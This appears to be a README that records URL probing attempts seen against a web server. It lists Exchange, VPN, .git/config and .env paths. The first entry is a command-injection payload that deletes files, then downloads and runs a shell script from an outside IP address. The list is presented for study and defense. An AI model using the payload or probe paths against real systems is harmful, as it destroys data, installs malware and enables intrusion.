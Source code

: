 # h@ck-attempts - 2024
URL injecting attempts to watch out for...
- I do not support these actions. This is used for studying and observing.
- Use the ```is-file-on-server.html``` to determine if you have these files on your server ( Must add paths on your own ).
## ATTEMPTS:
```
1. ../cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.156.8.244%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)
2. ../autodiscover/autodiscover.json?@zdi/Powershell
3. ../owa/auth/x.js
4. ../backup/.git/config
5. ../log/.git/config
6. ../doc/.git/config
7. ../autodiscover/autodiscover.json?@1337.com/owa/?&Email=autodiscover/autodiscover.json%3F@1337.com
8. ../Telerik.Web.UI.WebResource.axd?type=rau
9. ../WebInterface/
10. ../sugar_version.json
11. ../icons/sphere1.png
12. ../static/historypage.js
13. ../cgi-bin/authLogin.cgi
14. ../remote/login
15. ../sitecore/shell/sitecore.version.xml
16. ../js/NewWindow_2_all.js
17. ../cf_scripts/scripts/ajax/ckeditor/ckeditor.js
18. ../showLogin.cc
19. ../webfig/
20. ../cgi-bin/config.exp
21. ../solr/
22. ../api/session/properties
23. ../.env
24. ../owa/auth/logon.aspx
25. ../Temporary_Listen_Addresses
26. ../ews/exchanges/
27. ../ews/exchange%20/
28. ../ews/autodiscovers/
29. ../autodiscover/autodiscover%20/
30. ../ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application
31. ../actuator/health
32. ../+CSCOE+/logon.html
33. ../dana-na/auth/url_default/welcome.cgi
34. ../global-protect/login.esp
```
## Shadow Server Attempts (shadowserver.org)
```
1. ../vpn/index.html
2. ../geoserver/web/
3. ../.git/config
4. ../favicon.ico
```
## Linkedin Url Attempts
```
1. ../wp-content/plugins/chp-ads-block-detector/assets/img/icon.png
```
